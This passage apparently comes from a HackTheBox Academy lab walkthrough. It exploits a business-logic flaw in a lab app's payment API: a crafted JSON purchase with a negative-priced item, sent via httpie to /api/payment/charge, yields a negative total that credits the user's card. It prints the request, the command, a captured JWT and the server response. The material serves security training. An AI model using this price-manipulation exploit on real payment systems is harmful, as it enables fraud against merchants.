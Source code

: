 Subsequently, students need to construct the `JSON` object for the `items` field consisting of two purchase items along with `cardId` as the POST parameters (instead of doing it manually, students can intercept the request sent when clicking on "PAY NOW"); the below items allow gaining the `Platinum` subscription and 10000 `cubes`:

Code: json

```json
{
  "cardId": "651adc4626c2cbf251dbc949",
  "items": [
    {
      "name": "Platinum",
      "category": "subscription",
      "price": 68,
      "amount": 1
    },
    {
      "name": "10000",
      "category": "cubes",
      "price": -100,
      "amount": 1
    }
  ]
}
```

Students need to send the malicious purchase request to `/api/payment/charge`, noticing that the returned message shows a negative net amount:

Code: shell

```shell
echo -n '{"cardId":"651adc4626c2cbf251dbc949","items":[{"name":"Platinum","category":"subscription","price":68,"amount":1},{"name":"10000","category":"cubes","price":-100,"amount":1}]}' | http POST http://STMIP:STMPO/api/payment/charge --auth-type=jwt --auth="JWT" | jq
```

```
┌─[eu-academy-1]─[10.10.14.11]─[htb-ac-413848@htb-rpjwjd12ep]─[~]
└──╼ [★]$ echo -n '{"cardId":"651adc4626c2cbf251dbc949","items":[{"name":"Platinum","category":"subscription","price":68,"amount":1},{"name":"10000","category":"cubes","price":-100,"amount":1}]}' | http POST http://94.237.49.11:45562/api/payment/charge --auth-type=jwt --auth="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY1MWFkYTMyMjZjMmNiZjI1MWRiYzkwYiIsIm5hbWUiOiJwZWRhbnQiLCJ1c2VybmFtZSI6InBlZGFudCIsImVtYWlsIjoicGVkYW50QGh0Yi5jb20iLCJyZWdpc3RyYXRpb25EYXRlIjoiMjAyMy0xMC0wMlQxNDo1Njo1MC4yNzJaIiwiY3ViZXMiOjMwLCJzdWJzY3JpcHRpb24iOnsidXNlcklkIjoiNjUxYWRhMzIyNmMyY2JmMjUxZGJjOTBiIiwic3Vic2NyaXB0aW9uTmFtZSI6ImZyZWUiLCJleHBpcmVzQXQiOiIyMTAwLTAxLTAxVDAwOjAwOjAwLjAwMFoifSwiaWF0IjoxNjk2MjU4NjUzLCJleHAiOjE2OTYzNDUwNTN9.kBw7YKgD_EWsK0o2lRM9Wbch3xjDZU2M_bAyjEC_4iY" | jq

{
  "message": "Successfully processed payment for a total of $-32."
}
```

If students were to check their payment card's balance, they will notice that it became 32; this is because when updating the user's balance after a purchase (`src/src/controllers/payment-controllers.js`, lines 255-263), the function performs subtraction on `total`, which has a negative sign. According to a fundamental property in mathematics, the result will have a positive sign because `0 - (-32)` results in `+32`:
